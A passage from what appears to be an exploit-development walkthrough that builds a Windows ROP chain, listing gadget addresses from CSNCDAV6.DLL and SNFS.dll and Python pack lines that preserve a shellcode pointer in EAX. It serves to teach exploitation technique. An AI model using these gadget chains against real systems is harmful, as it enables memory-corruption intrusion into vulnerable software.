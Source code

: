 The only problem we have now is, that we don’t hold any registers anymore that has our location as `ESI` was popped off the stack. We could potentially obtain our address again by reversing our `EAX` value, which at this point still hold the value pointing to our shellcode. We can go back in our chain and look to copy `EAX` before or `ESI` to another register we restore afterwards, or we can reverse the addition of bytes added to `EAX` initially.

```python
 moving ESI to ECX
-> mov ecx, esi
-> xchg ecx, esi
-> lea ecx, [esi]
**-> push esi; pop ecx**
-> xor ecx, ecx; add ecx, esi or xor ecx, esi

ROPS\CSNCDAV6.DLL.txt:6963:0x5021c800: push eax ; pop ebp ; ret  ;  (1 found)
ROPS\CSNCDAV6.DLL.txt:6950:0x502016df: push eax ; pop ebp ; ret  ;  (1 found)
ROPS\CSNCDAV6.DLL.txt:6951:0x502024c6: push eax ; pop ebp ; ret  ;  (1 found)
ROPS\CSNCDAV6.DLL.txt:6952:0x502029f8: push eax ; pop ebp ; ret  ;  (1 found)
ROPS\CSNCDAV6.DLL.txt:6953:0x5020478c: push eax ; pop ebp ; ret  ;  (1 found)
ROPS\CSNCDAV6.DLL.txt:6954:0x502035ac: push eax ; pop ebp ; ret  ;  (1 found)
ROPS\CSNCDAV6.DLL.txt:6955:0x50204bf2: push eax ; pop ebp ; ret  ;  (1 found)
ROPS\CSNCDAV6.DLL.txt:6956:0x50204df5: push eax ; pop ebp ; ret  ;  (1 found)
ROPS\CSNCDAV6.DLL.txt:6957:0x50204e04: push eax ; pop ebp ; ret  ;  (1 found)
ROPS\CSNCDAV6.DLL.txt:6958:0x50204e13: push eax ; pop ebp ; ret  ;  (1 found)
ROPS\CSNCDAV6.DLL.txt:6959:0x50204e82: push eax ; pop ebp ; ret  ;  (1 found)
ROPS\CSNCDAV6.DLL.txt:6960:0x5021810a: push eax ; pop ebp ; ret  ;  (1 found)
ROPS\CSNCDAV6.DLL.txt:6961:0x502180ce: push eax ; pop ebp ; ret  ;  (1 found)
ROPS\CSNCDAV6.DLL.txt:6962:0x50218139: push eax ; pop ebp ; ret  ;  (1 found)
ROPS\CSNCDAV6.DLL.txt:6963:0x5021c800: push eax ; pop ebp ; ret  ;  (1 found)
ROPS\SNFS.dll.txt:14698:0x10019c61: push ebp ; add edx, dword [eax] ; pop eax ; ret  ;  (1 found)
```

We add the following gadgets to our ROP chain that will copy `EAX` before it is modified to `EBP` and we then simply restore the value of `EAX` before we move onwards.

```python
...................
# We copy EAX to ESI
rop += pack("<L", (0x5021809b)) # push eax ; pop esi ; pop ebp ; ret  ; 
rop += pack("<L", (0x42424242)) # pop ebp

rop += pack("<L", (0x50218139)) # push eax ; pop ebp ; ret  ;  (1 found)

#increase EAX 0x20 x 12 
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.
...................

...................
# write eax into location pointed by ESI
rop += pack("<L", (0x1001bfe5)) # NFS.dll.txt:9702:0x1001bfe5: mov dword [esi], eax ; mov dword [esi+0x08], eax ; mov dword [esi+0x04], eax ; pop esi ; ret  ;
rop += pack("<L", (0x42424242)) # pop esi
#restore eax to the correct value from ebp
rop += pack("<L", (0x10019c61)) # ROPS\SNFS.dll.txt:14698:0x10019c61: push ebp ; add edx, dword [eax] ; pop eax ; ret  ;
...................
```
